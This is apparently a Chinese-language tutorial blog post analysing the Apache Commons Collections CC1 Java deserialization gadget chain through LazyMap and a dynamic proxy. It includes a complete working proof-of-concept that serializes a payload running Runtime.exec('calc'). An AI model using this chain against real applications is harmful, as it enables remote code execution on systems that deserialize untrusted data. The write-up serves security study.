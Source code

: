 ```yaml
---
title: JAVA反序列化之CC1--LazyMap
date: 2023/5/1 15:20:25
categories:
- Java
tags:
- 反序列化
---
```




# CC1--lazyMap chains

**ysoserial中cc1链使用的是LazyMap**

## 前置知识java代理

https://y4er.com/posts/java-proxy/

关键点

**被动态代理的对象调用任意方法都会通过对应的InvocationHandler的invoke方法触发**



## 分析

危险方法是`InvokerTransformer.transform()`，之前使用的是 TransformedMap 下的 checkSetValue 方法来调用，这次用LazyMap 下的 get 方法调用 factory.transform

![image-20220115100212144](..//images/bc583ebe2ca03158524014c0e27c3392.png)

**get方法**

![image-20230930134701285](..//images/image-20230930134701285.png)

**谁调用了get方法**

![image-20220115103043004](..//images/b6b801a95373e418363d74b1f56f1edd.png)

可以看到是`sun.reflect.annotation.AnnotationInvocationHandler` 中的invoke方法，结合动态代理可以知道invoke 方法在对象代理时会被触发。而实际上这个类实际就是一个`InvocationHandler`，我们如果将这个对象用Proxy进行代理，那么在`readObject`的时候，只要调用任意方法，就会进入到`AnnotationInvocationHandler#invoke`方法中，进而触发我们的`LazyMap#get`。

```java
// 构建对象
Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
// 创建LazyMap的handler实例
InvocationHandler handler = (InvocationHandler) constructor.newInstance(Action.class, outerMap);
// 创建LazyMap的动态代理实例
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);  // 动态代理对象，执行任意方法，都会到invoke中去
```

代理后的对象叫做proxyMap，但我们不能直接对其进行序列化，因为我们入口点是 `sun.reflect.annotation.AnnotationInvocationHandler#readObject`，所以我们还需要再用`AnnotationInvocationHandler`对这个proxyMap进行包裹（我们需要的是`AnnotationInvocationHandler`这个类的对象）

```java
// 创建一个AnnotationInvocationHandler实例，并且把刚刚创建的代理赋值给this.memberValues
handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap); 
```

**完整poc**

```java
public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",new Class[0]}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),};

        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

		// 构建对象
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        // 创建LazyMap的handler实例
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
        // 创建LazyMap的动态代理实例
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
        // 创建一个AnnotationInvocationHandler实例，并且把刚刚创建的代理赋值给this.memberValues
        handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);

        serialize(handler);
        unserialize("ser.bin");

    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
```

![image-20230930143412695](..//images/image-20230930143412695.png)